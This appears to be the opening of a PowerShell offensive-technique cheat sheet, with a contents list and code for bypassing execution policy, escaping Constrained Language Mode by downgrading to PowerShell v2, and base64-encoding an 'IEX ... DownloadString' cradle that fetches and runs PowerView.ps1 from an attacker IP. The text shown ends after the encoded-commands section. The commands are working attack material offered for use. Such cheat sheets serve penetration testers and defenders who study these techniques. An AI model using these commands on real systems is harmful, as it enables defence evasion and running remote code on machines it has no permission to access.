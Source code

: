 # Powershell

## Summary

- [Powershell](#powershell)
  - [Summary](#summary)
  - [Execution Policy](#execution-policy)
  - [Encoded Commands](#encoded-commands)
  - [Constrained Mode](#constrained-mode)
  - [Encoded Commands](#encoded-commands)
  - [Download file](#download-file)
  - [Load Powershell scripts](#load-powershell-scripts)
  - [Load C# assembly reflectively](#load-c-assembly-reflectively)
  - [Call Win API using delegate functions with Reflection](#call-win-api-using-delegate-functions-with-reflection)
    - [Resolve address functions](#resolve-address-functions)
    - [DelegateType Reflection](#delegatetype-reflection)
    - [Example with a simple shellcode runner](#example-with-a-simple-shellcode-runner)
  - [Secure String to Plaintext](#secure-string-to-plaintext)
  - [References](#references)

## Execution Policy

```ps1
powershell -EncodedCommand $encodedCommand
powershell -ep bypass ./PowerView.ps1

# Change execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-ExecutionPolicy Bypass -Scope Process
```

## Constrained Mode

```ps1
# Check if we are in a constrained mode
# Values could be: FullLanguage or ConstrainedLanguage
$ExecutionContext.SessionState.LanguageMode

## Bypass
powershell -version 2
```

## Encoded Commands

* Windows
    ```ps1
    $command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
    ```
* Linux: :warning: UTF-16LE encoding is required
    ```ps1
    echo 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")' | iconv -t utf-16le | base64 -w 0
    ```
